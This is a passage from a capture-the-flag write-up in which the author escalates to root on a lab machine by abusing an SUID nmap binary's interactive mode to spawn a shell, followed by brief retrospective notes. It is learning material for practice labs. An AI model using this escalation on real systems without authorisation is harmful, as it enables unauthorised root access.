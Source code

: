 We see that `nmap` in `/usr/local/bin/nmap`, interestingly, has an SUID bit set. Nice.

By checking [GTFOBins](https://gtfobins.github.io/gtfobins/nmap/#suid) for `nmap` SUID escalations, we see that we can invoke `nmap`'s "interactive mode" (available on versions 2.02 to 5.21, which can be used to execute shell commands via `nmap> !sh`.

```shell
robot@linux:/$ /usr/local/bin/nmap --interactive
/usr/local/bin/nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !/bin/sh
!/bin/sh
# whoami
whoami
root
# 
```

...*et voilà*! We have root access and, by extension, the third flag.

### Notes

In retrospect, I would've checked my Wappalyzer browser plug-in earlier, which is a good practice to prioritize. It would have spotted that WordPress is installed on the server before the lengthy `gobuster` scan, potentially saving time.

Otherwise, this was an enjoyable CTF machine, especially for fans of the show.